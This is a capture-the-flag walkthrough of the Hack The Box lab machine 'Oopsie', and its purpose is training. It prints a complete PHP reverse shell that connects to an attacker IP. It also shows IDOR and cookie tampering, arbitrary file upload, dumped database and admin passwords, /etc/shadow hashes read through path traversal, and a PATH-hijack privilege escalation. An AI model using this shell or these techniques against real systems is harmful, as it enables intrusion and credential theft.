








# Oopsie (HTB Starting Point 2x2)

## Target Details

IP: 10.129.69.179

## Full Walk Through

### Port scan

```bash
naabu -host 10.129.69.179  -nmap-cli 'nmap -sV -sC nmap-output'
```


```
[INF] Current naabu version 2.1.6 (latest)
[INF] Running CONNECT scan with non root privileges
[INF] Found 2 ports on host 10.129.69.179 (10.129.69.179)
10.129.69.179:22
10.129.69.179:80
[INF] Running nmap command: nmap -sV -sC nmap-output -p 80,22 10.129.69.179
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-21 07:53 IST
Nmap scan report for 10.129.69.179
Host is up (0.32s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61e43fd41ee2b2f10d3ced36283667c7 (RSA)
|   256 241da417d4e32a9c905c30588f60778d (ECDSA)
|_  256 78030eb4a1afe5c2f98d29053e29c9f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.01 seconds
```


So we have an SSH service and a HTTP service (website).&#x20;

### Directory Brute Force

```awk
gobuster dir --url http://10.129.95.191/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.191/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/21 03:54:46 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.129.95.191/css/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.95.191/fonts/]
/images               (Status: 301) [Size: 315] [--> http://10.129.95.191/images/]
/index.php            (Status: 200) [Size: 10932]
/js                   (Status: 301) [Size: 311] [--> http://10.129.95.191/js/]
/server-status        (Status: 403) [Size: 278]
/themes               (Status: 301) [Size: 315] [--> http://10.129.95.191/themes/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
Progress: 4713 / 4714 (99.98%)
===============================================================
2023/05/21 03:57:11 Finished
===============================================================
```

**Probable Approaches** \
**SSH:** that we need to get access of, either, by getting the keys from the server or by uploading our forged keys.\
**Website**: should be our primary target to gain a foothold on the server. We can probably have web shells uploaded in the `/uploads` sections.

### Login Panel allows unauthenticated guest access

Upon inspection we find `<script src="`[`/cdn-cgi/login/script.js`](http://10.129.69.179/cdn-cgi/login/script.js)`"></script>` almost at the end of the home page.&#x20;

This gives us the login panel at the `/cdn-cgi/login` endpoint:

<figure><figcaption><p>Login Panel</p></figcaption></figure>

After clicking on `Login as Guest`, we are given guest access to the control panel, without any authentication.

<figure><figcaption><p>Guest Login</p></figcaption></figure>

### IDOR using guest login

We can modify the Id parameter in the URL to leak out information about other users.&#x20;

#### Leaking out client (john) information&#x20;

* Modify Id parameter to 4 to see john's information

<figure><figcaption><p>Access ID and email of John</p></figcaption></figure>

#### Leaking out admin information

* Similar approach like above, by setting Id parameter to 1.

<figure><figcaption><p>IDOR to admin's information</p></figcaption></figure>

This gives us the access ID of the admin user and the admin email id, which we can use later for logging in as the admin user.

### Broken Access Control in uploads

Upon visiting the upload section using the guest user login, we are greeted with the message "Action requires admin rights":

<figure><figcaption><p>Uploads with guest access</p></figcaption></figure>

Now with the admin access id and by setting the role parameter in cookies to be admin, we can have a broken access to the admin upload panel:

<figure><figcaption><p>Broken Access Control to admin panel by tampering with user and role cookies</p></figcaption></figure>

We can set these cookie values in the browser storage for persistent access to the upload section.

### File Upload Vulnerability

To check if we can upload any arbitrary files, let's create one using:

```bash
touch arbitrary.php
```

We can select and upload the file successfully.&#x20;

<figure><figcaption><p>Arbitrary File Upload</p></figcaption></figure>

### Remote Code Execution via Arbitrary File Upload

Now that we know we can upload `php` files, we can try and upload a `php webshell` to gain shell access to the server.

The php code:

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.13';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?>
```

We start a netcat listener using:

```bash
sudo nc -vnlp 4444
```

Then we upload and execute our web shell by going to [http://10.129.95.191/uploads/php-reverse-shell.php](http://10.129.95.191/uploads/php-reverse-shell.php) link via the URL bar in a browser. The window gets stuck on reloading the page as shown below:

<figure><figcaption><p>PHP webshell working</p></figcaption></figure>

And we get a shell back in our netcat listener:

```
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.95.191] 49214
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:48:53 up 11 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

We can make this shell interactive by using the instructions [here](../make-your-dumb-netcat-shell-interactive-and-awesome.md).&#x20;

We are currently as user `www-data`

```
www-data@oopsie$ whoami
whoami
www-data
```

Viewing the contents of the home directory we find `robert` directory within it. So robert has to be one of the users.

### Robert's FLAG (User FLAG)

```
www-data@oopsie:/home/robert$ cat user.txt
cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
```

### Credential dumping

Since we are as user `www-data`, we cannot do much being this user. So we need to be user `robert` or the `root` user.

Within the `/var/www/html/cdn-cgi/login` directory we find two interesting files `db.php` and `admin.php.`&#x20;

```bash
cat db.php
```

```
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

```bash
cat * | grep -i passw*
```

```
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />
```

```bash
cat /etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
robert:x:1000:1000:robert:/home/robert:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

### Lateral movement

We gain shell access to robert user using:

```
www-data@oopsie$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie$
```

To get more info about robert's user account we can use the `id` command:

```
robert@oopsie:~$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

### Check SUDO access on Robert

We check if robert has `sudo` access using:

```bash
sudo -l
```

We get the following error which suggests that robert doesn't have `sudo` access.

```
[sudo] password for robert: M3g4C0rpUs3r!

Sorry, user robert may not run sudo on oopsie.
```

### Find SUID binaries

We find every files with SUID(Set Owner User ID) set using the following command:


```bash
find / -perm -u=s -type f 2>/dev/null
```

```
/snap/core/11420/bin/mount
/snap/core/11420/bin/ping
/snap/core/11420/bin/ping6
/snap/core/11420/bin/su
/snap/core/11420/bin/umount
/snap/core/11420/usr/bin/chfn
/snap/core/11420/usr/bin/chsh
/snap/core/11420/usr/bin/gpasswd
/snap/core/11420/usr/bin/newgrp
/snap/core/11420/usr/bin/passwd
/snap/core/11420/usr/bin/sudo
/snap/core/11420/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/11420/usr/lib/openssh/ssh-keysign
/snap/core/11420/usr/lib/snapd/snap-confine
/snap/core/11420/usr/sbin/pppd
/snap/core/11743/bin/mount
/snap/core/11743/bin/ping
/snap/core/11743/bin/ping6
/snap/core/11743/bin/su
/snap/core/11743/bin/umount
/snap/core/11743/usr/bin/chfn
/snap/core/11743/usr/bin/chsh
/snap/core/11743/usr/bin/gpasswd
/snap/core/11743/usr/bin/newgrp
/snap/core/11743/usr/bin/passwd
/snap/core/11743/usr/bin/sudo
/snap/core/11743/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/11743/usr/lib/openssh/ssh-keysign
/snap/core/11743/usr/lib/snapd/snap-confine
/snap/core/11743/usr/sbin/pppd
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping
/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/at
/usr/bin/bugtracker
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/sudo
```

We find we have a bugtracker executable in `/usr/bin`.&#x20;

```bash
robert@oopsie:~$ ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```

A successful execution of bugtracker executable is as shown below:&#x20;

```
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
When loading library in firmware it seems to be crashed

What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.

What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.
```

But when unsuccessful, we see that it uses `cat` command underneath:

```
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 10
10
---------------

cat: /root/reports/10: No such file or directory
```

We see that the cat command is used in an insecure way.&#x20;

### Shadow dump

We can perform a path injection in the user input section to get the contents of the `/etc/shadow` file. It requires root user privileges and this can help us gaining so.

```
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../../etc/shadow
../../../etc/shadow
---------------

root:$6$eD0n5saZ$orykpdd7mVL/lF57rIGwUzeSROPC1KRITJ45Nqn6P2BLaZ.tcSOy5fNFcOw9uBRkClgu5R9WlyxpEId5qOOVY.:18285:0:99999:7:::
daemon:*:18113:0:99999:7:::
bin:*:18113:0:99999:7:::
sys:*:18113:0:99999:7:::
sync:*:18113:0:99999:7:::
games:*:18113:0:99999:7:::
man:*:18113:0:99999:7:::
lp:*:18113:0:99999:7:::
mail:*:18113:0:99999:7:::
news:*:18113:0:99999:7:::
uucp:*:18113:0:99999:7:::
proxy:*:18113:0:99999:7:::
www-data:*:18113:0:99999:7:::
backup:*:18113:0:99999:7:::
list:*:18113:0:99999:7:::
irc:*:18113:0:99999:7:::
gnats:*:18113:0:99999:7:::
nobody:*:18113:0:99999:7:::
systemd-network:*:18113:0:99999:7:::
systemd-resolve:*:18113:0:99999:7:::
syslog:*:18113:0:99999:7:::
messagebus:*:18113:0:99999:7:::
_apt:*:18113:0:99999:7:::
lxd:*:18113:0:99999:7:::
uuidd:*:18113:0:99999:7:::
dnsmasq:*:18113:0:99999:7:::
landscape:*:18113:0:99999:7:::
pollinate:*:18113:0:99999:7:::
sshd:*:18284:0:99999:7:::
robert:$6$kriHoPwv$iBt45Fu0g4R0uNWSubfjDRvtUSwxVu.U1JhYKmT4voMWlVc3/u2nu0j0JZL0YWmm62vRgAs4acBl8Ge.S393H/:18285:0:99999:7:::
mysql:!:18284:0:99999:7:::
```

### Privilege Escalation

We change to /tmp directory and create a new file/shell script named cat, which when invoked by the bugtracker binary will give us shell access:

```
echo "/bin/sh" > cat
```

Now we export the /tmp directory to the PATH variable in a such a way that when cat command's path is resolved we hit our malicious cat instead of system default cat.

```
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo $PATH
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Now executing the bugtracker binary gives us shell access:

### Root FLAG

We can find the root user flag in /root/root.txt using the bugtracker binary without privilege escalation:

```
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../../../root/root.txt
../../../../root/root.txt
---------------

af13b0bee69f8a877c3faf667f7beacf

*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```


